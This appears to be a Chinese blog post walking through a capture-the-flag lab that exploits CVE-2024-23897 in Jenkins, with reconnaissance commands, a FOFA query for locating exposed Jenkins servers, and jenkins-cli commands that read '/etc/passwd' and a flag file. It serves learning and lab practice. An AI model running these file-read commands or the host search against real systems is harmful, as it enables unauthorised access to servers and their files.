 ```yaml
---
layout: post
title: "CVE-2024-23897任意文件读取漏洞"
date:   2024-10-11
tags: [靶场]
comments: true
author: VR2050
toc: true
---
```


没事儿玩了玩i春秋的免费靶场,i春秋的会员有点贵,所以,就看了看免费的头一个看到的就是CVE-2024-23897

## 靶场介绍

jenkins 2.441及更早版本，以及LTS 2.426.2及更早版本没有禁用其CLI命令解析器的一个功能，该功能会将参数中'@'字符后跟的文件路径替换为该文件的内容，允许未经身份验证的攻击者读取Jenkins控制器文件系统上的任意文件

待会儿搜一艘看看啥漏洞

## 打点

dirsearch 扫了扫:

```bash
dirsearch -u 8.147.132.32:19652
```

没啥有用的信息,扫到个robots.txt,么有啥价值的东西

![1728653021962](/images/2024/1728653021962.png)

nmap扫描(开放很多端口,之后再说)

```bash
nmap ip -Pn -A 
```

## 访问网站看看


![1728653423667](/images/2024/1728653423667.png)

抓包看看,之后试试爆破(弱口令试了试没用)


之后搜了搜CVE-2024-23897

[可以看看这位大佬的漏洞复现](https://blog.csdn.net/2301_80127209/article/details/139777834?fromshare=blogdetail&sharetype=blogdetail&sharerId=139777834&sharerefer=PC&sharesource=qq_72825267&sharefrom=from_link)

## 介绍

[jenkins](https://so.csdn.net/so/search?q=jenkins&spm=1001.2101.3001.7020)一个开源的、用于方便[代码管理](https://so.csdn.net/so/search?q=%E4%BB%A3%E7%A0%81%E7%AE%A1%E7%90%86&spm=1001.2101.3001.7020)、部署的基于web的平台，用于提高团队开发效率（生产力）

### 影响版本

版本<= Jenkins 2.441、版本<= LTS 2.426.2

### fofa语法

header="X-Jenkins" || banner="X-Jenkins" || header="X-Hudson" || banner="X-Hudson" || header="X-Required-Permission: hudson.model.Hudson.Read" || banner="X-Required-Permission: hudson.model.Hudson.Read" || body="Jenkins-Agent-Protocols"

## 复现

下载http://url/[jnlpJars/jenkins-cli.jar](http://xxx/jnlpJars/jenkins-cli.jar "http://xxx/jnlpJars/jenkins-cli.jar")(刚才没有扫到(bushi))

```shell
java -jar jenkins-cli.jar -s http://8.147.132.32:19652 -http help 1 "@/etc/passwd"
```

```shell
java -jar jenkins-cli.jar -s http://8.147.132.32:19652 -http help 1 "@/flag" 
```

只能看到一部分不过flag能够看到

![1728654427588](/images/2024/1728654427588.png)

## 总结

我在想是不是这样做还不够,光获取flag还不够,还没有拿去到shell,还需要再努力

